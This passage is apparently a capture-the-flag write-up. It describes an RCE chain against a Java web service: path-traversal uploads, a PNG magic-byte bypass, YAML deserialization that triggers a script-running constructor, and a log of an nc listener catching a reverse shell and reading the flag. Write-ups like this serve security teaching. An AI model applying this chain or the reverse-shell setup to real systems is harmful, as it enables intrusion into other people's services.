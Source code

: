 ### Execution of ScriptService is unsafe

ScriptService executes `runAll` inside its own constructor which is considered unsafe. Only instantiation of ScriptService is needed in order to run potentially malicious scripts in the `data/scripts/` folder.
```
public ScriptService() throws Exception {
    this.results = new HashMap<>();
    runAll();
}
...
    try (Stream<Path> paths = Files.walk(Application.FOLDER_SCRIPTS)) {
        paths.filter(Files::isRegularFile).forEach(path -> {
            try {
                ProcessBuilder pb = new ProcessBuilder("/bin/sh", path.toString());
                Process p = pb.start();
...
```

## Executing complete attack chain

With all previous issues found during code review, we can execute the following attack chain and obtain RCE:
- retrieve websocket topic with hardcoded credentials
- connect to websocket and initiate 3 uploads
  - one that uploads a script (leverage path traversal): `../scripts/script.sh`
  - one that uploads a malicious YAML file (leverage path traversal): `../configs/config.yml`
  - one that executes the notification service which will run the process of YAML deserialization
- all uploads must contain `\x89PNG` at the start of file

The aformentioned steps will force the web service to:
- accept all uploads as PNG due to first 4 bytes conforming to PNG magic header
- attempt deserialization of malicious YAML file and executing the `ScriptService` constructor, `\x89PNG` is considered as object instance field and thus ignored
- running `ScriptService` against our malicious script and executing code, the `\x89PNG` will be ignored as _unknown command_

Complete chain is written in `solve.py`:
```
$ nc -nlvp 4444
Listening on 0.0.0.0 4444
^Z
[1]+  Stopped                 nc -nlvp 4444
$ python3 solve.py 
Got path: /ws/5118053c-03cc-4524-92f4-b39a35e4fc32
{"statusCode":"OK","message":"Connected"}
{"statusCode":"OK","message":"8b2ddd70-ea50-4856-b6c8-a722c940c961"}
{"statusCode":"OK","message":"e2fb4509-02a4-4486-83dc-6f9f7d5b1e10"}
{"statusCode":"OK","message":"7dc62ca5-791b-497b-a49f-63cdc46557bd"}
^Z
[2]+  Stopped                 python3 solve.py
$ fg 1
nc -nlvp 4444
Connection received on 172.17.0.2 38632
bash-4.4$ id
id
uid=999(ctf) gid=999(ctf) groups=999(ctf)
bash-4.4$ cat flag.txt
cat flag.txt
ibctf{h3-w3nt_f0r_TH3_cl0udzz-but-g0t_t0-th3-ST4RZ-1nst34d}
bash-4.4$ 
```
